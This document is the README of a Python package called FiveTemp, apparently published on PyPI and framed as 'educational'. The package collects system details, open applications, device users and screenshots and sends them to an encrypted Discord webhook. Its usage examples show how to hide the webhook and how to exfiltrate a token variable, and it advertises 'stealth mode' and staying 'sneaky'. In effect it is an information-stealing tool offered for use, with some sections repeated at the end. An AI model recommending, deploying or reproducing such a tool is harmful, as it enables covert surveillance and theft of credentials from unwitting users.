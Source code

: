 # FiveTemp (5t)
==================

A Discord import designed for educational purposes. The creator, Abyzms, is not responsible for any misusage or damages caused by using FiveTemp.

## Features
------------

* **System Information**: Retrieve detailed information about your system, including:
  + IP Address configuration
  + BIOS Serial Number
  + GPU Information
  + Active Connections
  + OS Version
  + Open Applications (tasklist)
  + Registered Device Users
* **Monitoring**: Capture a screenshot of your monitor
* **Stealth Mode**: Stay sneaky with our discreet features, including webhook encryption.

## Installation
------------

To install FiveTemp, run the following command in your terminal:
`pip install fivetemp`

## Usage/Examples
--------------

### Encrypting Your Webhook

To encrypt your webhook, use the following command:
`5t -w [YOUR_WEBHOOK]`
This will output your encrypted webhook.

### Using FiveTemp in Your Code

To use FiveTemp in your Python code, import the library and pass your encrypted webhook:

```
import five_temp
five_temp.s('encrypted_webhook')
```
To send a variable (marked as token) use the following

```
import five_temp
five_temp.st('encrypted_webhook' , VARIABLE_NAME)
```

## Updates and More
-------------------

To access the FiveTemp menu, which includes updates, other packages, and social media links, run:
`5t -m`
# or
`5t --menu`
This will open a localhost server with the following information:

* Updates: Stay up-to-date with the latest changes and features
* Other Packages: Explore other projects and tools from Abyzms
* Social Media: Connect with Abyzms on various platforms

**Upcoming Features**

* Browser Information: Get detailed information about your browser

**Special Thanks**

A huge thank you to my friend [reckedpr](https://github.com/reckedpr) for their contributions to FiveTemp.

## Feedback
----------

If you have any feedback or suggestions, please reach out to us at [abyzms0+fivetemp@gmail.com](mailto:abyzms0+fivetemp@gmail.com) or comment on our YouTube video: <https://www.youtube.com/@abyzmzs>
## Features

- IP Address configuration
- System Information
- Staying sneaky ;)
## Installation

Install FiveTemp

```bash
pip install fivetemp
```
    
## Feedback

If you have any feedback, please reach out to us at abyzms0+fivetemp@gmail.com
Or: Comment on our youtube video. https://www.youtube.com/@abyzmzs
